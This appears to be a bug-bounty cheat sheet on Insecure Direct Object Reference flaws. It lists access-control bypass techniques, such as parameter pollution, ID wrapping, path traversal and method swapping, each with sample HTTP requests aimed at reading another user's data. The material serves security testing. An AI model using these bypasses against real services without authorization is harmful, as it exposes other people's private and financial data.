 # Insecure Direct Object Reference

## Basics



[https://owasp.org/www-project-top-ten/2017/A5\_2017-Broken\_Access\_Control.html](https://owasp.org/www-project-top-ten/2017/A5\_2017-Broken\_Access\_Control.html)\
\
For example, let's say we're logging into our bank account, and after correctly authenticating ourselves, we get taken to a URL like this [https://example.com/bank?account\_number=1234](https://example.com/bank?account\_number=1234). On that page we can see all our important bank details, and a user would do whatever they needed to do and move along their way thinking nothing is wrong.\
There is however a potentially huge problem here, a hacker may be able to change the account\_number parameter to something else like 1235, and if the site is incorrectly configured, then he would have access to someone else's bank information.



### **How to Find**

1. Add parameters onto the endpoints for example, if there was

```
GET /api/v1/getuser
[...]
```

Try this to bypass

```
GET /api/v1/getuser?id=1234
[...]
```

1. HTTP Parameter pollution

```
POST /api/get_profile
[...]
user_id=hacker_id&user_id=victim_id
```

1. Add .json to the endpoint

```
GET /v2/GetData/1234
[...]
```

Try this to bypass

```
GET /v2/GetData/1234.json
[...]
```

1. Test on outdated API Versions

```
POST /v2/GetData
[...]
id=123
```

Try this to bypass

```
POST /v1/GetData
[...]
id=123
```

1. Wrap the ID with an array.

```
POST /api/get_profile
[...]
{"user_id":111}
```

Try this to bypass

```
POST /api/get_profile
[...]
{"id":[111]}
```

1. Wrap the ID with a JSON object

```
POST /api/get_profile
[...]
{"user_id":111}
```

Try this to bypass

```
POST /api/get_profile
[...]
{"user_id":{"user_id":111}}
```

1. JSON Parameter Pollution

```
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

1. Try decode the ID, if the ID encoded using md5,base64,etc

```
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```

dmljdGltQG1haWwuY29t => [victim@mail.com](mailto:victim@mail.com)

1. If the website using graphql, try to find IDOR using graphql!

```
GET /graphql
[...]
```

```
GET /graphql.php?query=
[...]
```

1. MFLAC (Missing Function Level Access Control)

```
GET /admin/profile
```

Try this to bypass

```
GET /ADMIN/profile
```

1. Try to swap uuid with number

```
GET /file?id=90ri2-xozifke-29ikedaw0d
```

Try this to bypass

```
GET /file?id=302
```

1. Change HTTP Method

```
GET /api/v1/users/profile/111
```

Try this to bypass

```
POST /api/v1/users/profile/111
```

1. Path traversal

```
GET /api/v1/users/profile/victim_id
```

Try this to bypass

```
GET /api/v1/users/profile/my_id/../victim_id
```

1. Change request content type

```
Content-type: application/xml
```

Try this to bypass

```
Content-type: application/json
```

1. Send wildcard instead of ID

```
GET /api/users/111
```

Try this to bypass

```
GET /api/users/*
```

1. Try google dorking to find new endpoint

Reference:

* [@swaysThinking](https://twitter.com/swaysThinking) and other medium writeup
* [https://github.com/daffainfo/AllAboutBugBounty/blob/master/Insecure%20Direct%20Object%20References.md](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Insecure%20Direct%20Object%20References.md)
